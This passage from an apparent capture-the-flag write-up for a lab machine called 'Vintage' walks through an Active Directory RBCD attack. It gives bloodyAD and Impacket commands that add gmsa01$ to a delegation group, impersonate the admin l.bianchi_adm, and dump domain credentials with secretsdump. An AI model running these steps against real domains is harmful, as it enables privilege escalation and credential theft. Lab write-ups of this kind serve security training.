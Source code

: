 And we can see that it contains the password for the `c.neri_adm` user.

# Auth as c.neri_adm

## RBCD

<p align="center">
  <img src="/machines/vintage/cneriadm_attack.png" alt="c.neri.adm attack" />
</p>

As you can see, the `c.neri_adm` user belongs to the `DELEGATEDADMINS` group that is `AllowedToAct` on the `DC01` computer. The `c.neri_adm` user has `GenericWrite` permissions on the `DELEGATEDADMINS` group, so we can add other users to the `DELEGATEDADMINS` group.
This means any user that belongs to the `DELEGATEDADMINS` group could act as `DC01$` ([RBCD](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)) if they meet the requirement for issuing a service ticket about the following :

- a user account having a `ServicePrincipalName` set
- an account with a trailing `$` in the `sAMAccountName` (i.e. a computer accounts)
- any other account and conduct SPN-less RBCD with U2U (User-to-User) authentication

We could use either `fs01$` or `gmsa01$` for the RBCD attack. I will use `gmsa01$` for this attack.
Let's add `gmsa01$` to the `DELEGATEDADMINS` group.

```bash
getTGT.py -dc-ip 10.10.11.45 vintage.htb/c.neri_adm:<password>
export KRB5CCNAME=$(realpath c.neri_adm.ccache)
bloodyAD -d vintage.htb -k --dc-ip 10.10.11.45 --host dc01.vintage.htb add groupMember DELEGATEDADMINS gmsa01\$
```

Impersonate the highest privileged user in the domain that is a user belonging to the `ADMINISTRATORS`, `Domain Admins`, or `Enterprise Admins` groups.

<p align="center">
  <img src="/machines/vintage/admins.png" alt="admins" />
</p>

I have tried to impersonate `Administrator` user, but it didn't work when trying to `secretsdump`. I will try to impersonate `l.bianchi_adm` user instead.

```bash
# Get GMSA01$
getTGT.py -dc-ip 10.10.11.45 vintage.htb/gmsa01\$ -hashes "<NTHash>"
export KRB5CCNAME=$(realpath gmsa01\$.ccache)

# RBCD
getST.py -spn 'cifs/dc01.vintage.htb' -impersonate l.bianchi_adm -dc-ip 'dc01.vintage.htb' 'vintage.htb/gmsa01$' -k -no-pass

# Dump secrets
export KRB5CCNAME=$(realpath l.bianchi_adm@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache)
secretsdump.py vintage.htb/l.bianchi_adm@dc01.vintage.htb -k -no-pass -just-dc
```
